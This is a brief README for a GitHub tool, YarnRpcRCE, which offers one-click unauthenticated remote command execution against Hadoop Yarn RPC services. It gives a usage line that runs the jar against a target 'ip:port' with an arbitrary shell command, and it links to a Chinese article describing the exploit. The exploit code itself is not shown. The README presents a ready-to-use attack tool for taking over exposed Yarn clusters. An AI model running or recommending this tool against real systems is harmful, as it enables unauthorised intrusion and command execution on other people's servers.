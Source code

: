# YarnRpcRCE

## What's this

Yarn RPC Unauth RCE

## How to use

```
java -jar YarnRpcUnauth.jar ip:port "touch /tmp/success"
```

## Learn More

[Hadoop Yarn RPC未授权RCE（含一键利用工具）](https://mp.weixin.qq.com/s?__biz=MzkwNDI1NDUwMQ==&mid=2247485150&idx=1&sn=c31937fdb3e92ae3951a98b7967032b2&chksm=c0888394f7ff0a8224a8984f2cb4935f9aa1e7d243c4b512c488600d8fef0b6ec16a2b345865&token=616099468&lang=zh_CN#rd)